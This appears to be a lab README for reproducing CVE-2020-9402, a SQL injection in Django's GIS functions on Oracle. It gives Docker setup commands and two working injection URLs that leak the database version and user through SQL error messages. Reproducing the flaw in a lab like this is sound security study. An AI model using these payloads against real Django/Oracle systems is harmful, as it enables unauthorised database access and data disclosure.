 # Django GIS functions and aggregates on Oracle SQL Injection (CVE-2020-9402)

[中文版本(Chinese version)](README.zh-cn.md)

Django is a high-level Python web framework that encourages rapid development and clean, pragmatic design.

Django released a security update on March 4, 2020, which fixes a SQL injection vulnerability in the GIS functions and aggregates on Oracle. This vulnerability affects Django versions before 3.0.4, 2.2.11, and 1.11.29.

The vulnerability requires the developer to use GIS functions and aggregates, and the field name of the queryset can be controlled by the user. This vulnerability can be exploited through Django's built-in admin interface.

References:

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

## Environment Setup

Execute the following command to compile and start a vulnerable Django 3.0.3 server:

```
docker compose build
docker compose up -d
```

After the server is started, you can access the Django home page at `http://your-ip:8000`.

## Vulnerability Reproduction

First, visit `http://your-ip:8000/vuln/`. You can inject SQL by adding malicious input to the `q` parameter:

```
http://your-ip:8000/vuln/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1
```

The SQL error message will be displayed, confirming the successful injection:

![](1.png)

Alternatively, you can visit `http://your-ip:8000/vuln2/` and inject SQL using a different payload:

```
http://your-ip:8000/vuln2/?q=0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --
```

The SQL error message will again confirm the successful injection:

![](2.png)
